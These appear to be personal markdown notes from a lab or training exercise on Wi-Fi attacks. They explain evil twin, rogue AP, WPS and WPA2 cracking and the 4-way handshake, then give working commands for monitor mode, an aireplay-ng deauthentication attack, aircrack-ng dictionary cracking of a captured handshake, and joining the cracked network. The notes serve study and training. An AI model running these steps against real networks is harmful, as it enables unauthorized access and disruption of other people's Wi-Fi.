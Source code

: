 ```yaml
---
title: Post 71 - Not so secret secret
date: 2024-12-19
tags:
    - wifi
    - airodump-ng
    - aireplay-ng
    - aircrack-ng
---
```

## Task 17, Day 11 `Wi-Fi attacks` If you'd like to WPA, press the star key!  

### Attacks on Wi-Fi
For educational purposes only:  
    - **Evil twin attack**: Fake access point with a similar name to a trusted network (i.e. "Home_Internnet" instead of "Home_Internet"). Attack starts by sending deauth packets to all the users on the legitimate AP. Frustration grows and users open the properties and see another network with the "right" name and stronger signal. They connect to the illegitimate network and their traffic is visible to the attacker.
    - **Rogue access point**: Similar to the evil twin attack, attaker sets up an open Wi-Fi AP near or inside an org's physical premises so it has ideal signal strength. If users' devices are set to auto-connect to open Wi-Fi, they may accidentally join the illegitimate network. 
    - **WPS attack**: Wi-Fi Protected Setup (WPS) PINs are vulnerable in some networks due to insecure configuration. This attack initiates a handshake with the router and captures the response. This contains data related to the PIN and can be brute-forced into revealing the PIN and extracting the PSK.
    - **WPA/WPA2 cracking**: Security of the protocol is heavily influenced by the length and comlexity of the PSK. Cracking WPA starts with sending deauth packets to a legitimate user and capturing the 4-way handshake as the user reconnects. After the handshake is captured, the attacker can crack the password with brute-force or dictionary attacks against the captured handshake file.  

### The 4-way Handshake
Basic steps:  
    - **Router sends a challenge**: The router/AP sends a "challenge" to the client asking it to prove it knows the network's password without directly sharing it.
    - **Client responds with encrypted info**: Client uses the PSK to create an encrypted response that only the router can verify if it also has the correct PSK.
    - **Router verifies and sends confirmation**: If the client's response matches what thr outer expects, the client's PSK is correct and the router sends its own confirmation to the client.
    - **Final check and connection established**: Client verifies the router's response, and if it matches, they finish setting up the secure connection.  

The handshake doesn't directly reveal the PSK, but involves encrypted messages that can only be understood with the same PSK.  

### The Vulnerability
Anyone can "hear" this conversation happening, and can use it as the basis to attempt offline brute-forcing or dictionary attacks. This involves trying different possible passwords and comparing the results to the captured handshake until the same result is achieved.  

### The Practical
In terminal:  
    - `iw dev` to show any wireless devices available, and their configuration.
    - `sudo iw dev wlan2 scan` to use wlan2 to scan for available networks.
        - `BSS(ID)` can help identify the maker of the device, and `SSID` idicates it is sdvertising a network, so it is an AP of some sort.
        - `RSN` (Robust Security Network) is part of WPA2 standard, so network is using WPA2. This typically defines the encryption and authentication settings.
        - `Group and Pairwise ciphers` are CCMP (Counter Mode with Cipher Block Chaining Message Authentication Code Protocol), the encryption method used by WPA2.
        - `Authentication suites` is PSK, indicating it is WPA2-Personal with a shared password for authentication.
        - `DS Paarameter set` is channel 6, showing it it 2.4GHz network.

Monitor mode on the wireless device allows it to listen to all traffic on a specific channel, whether directed at the device or not. Captures all traffic within range for analysis without ever joining network. To set device in monitoring mode:
    - `sudo ip link set dev wlan2 down` to turn off device.
    - `sudo iw dev wlan2 set type monitor` to set device to monitor mode.
    - `sudo ip link set dev wlan2 up` to turn device on.

#### Application
Using 2 terminals to observe capture and issue commands:  
    - `sudo airodump-ng wlan2` to start capturing traffic, specially targeting handshake packets (*note*: by default `airodump-ng` automatically switches the device into monitor mode if it's available).
    - `sudo airodump-ng -c 6 --bssid <MAC-address> -w output-file wlan2` to target a specific channel and MAC address, and save the captures to a few files that start with "output-file". 
        - `STATION` shows the BSSID of the connected device.
    - `sudo aireplay-ng -0 1 -a <AP-MAC-address> -c <Station-MAC-address> wlan2` to start deauth attack.
        - `-0` to specify deauth attack, `1` to specify sending 1 deauth.
        - `-a` BSSID of AP.
        - `-c` BSSID of the client to deauth.
Success is shown when `WPA handshake` shows in top right corner. Can then move on to cracking the PSK by using `aircrack-ng`:    
    - `sudo aircrack-ng -a 2 -b <AP-MAC-address> -w </path/to/wordlist.txt> output*cap` where:
        - `-a 2` indicates WPA/WPA2 attack mode.
        - `-b` indicates AP MAC address.
        - `-w` indicates the dictionary list to use.
        - `output*cap` name of the output files to run the attack against.
Once PSK is cracked, can use it to join the network, after turning off airodump-ng. Can't join a network if the device is in monitor mode. Can join the wireless network with:  
~~~
:~$ wpa_passphrase <SSID> '<PSK-HERE>' > config
:~$ sudo wpa_supplicant -B -c config -i wlan2
~~~

### The Task
Retrieve SSID, BSSID, and PSK info.

### Recommended Stuff
Networking module